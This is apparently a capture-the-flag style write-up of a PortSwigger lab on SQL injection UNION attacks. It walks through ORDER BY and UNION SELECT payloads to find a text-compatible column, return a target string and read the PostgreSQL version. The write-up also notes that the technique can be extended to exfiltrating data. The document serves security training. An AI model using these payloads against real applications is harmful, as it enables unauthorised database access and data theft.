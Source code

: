 # SQL injection UNION attack, finding a column containing text

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text), you'll learn: SQL injection UNION attack, finding a column containing text! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204015431.png)

- **Objective: Retrieve the string `F46d4g` from the database.**

In the previous lab, we found **a SQL injection vulnerability in the `filter` page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204015820.png)

**And we found the number of columns is 3 via this payload: `' ORDER BY 3-- -`.**

Now, we need to output the string `F46d4g`.

**To do so, I'll find which column is accepting string datatype:**
```sql
' UNION SELECT NULL,NULL,'a'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204020257.png)

**If the datatype doesn't allow strings, it returns a `500 Internal Server Error` HTTP status.**

**If the datatype accept strings:**
```sql
' UNION SELECT NULL,'SQL Injection',NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204020424.png)

**It has no error!**

**After finding the correct column that accepts string datatype, we can use that column to display anything!**
```sql
' UNION SELECT NULL,'F46d4g',NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204020627.png)

**Now, not only we can display what string we want, but also we can enumerate the database much further! Or even exfiltrating data!**

**Finding which version of this database is using:**
```sql
' UNION SELECT NULL,version(),NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204021005.png)

**We found that it's using `PostgreSQL` for DBMS (Database Management System), and it's version is `12.12`!**

# Conclusion

What we've learned:

1. SQL injection UNION attack, finding a column containing text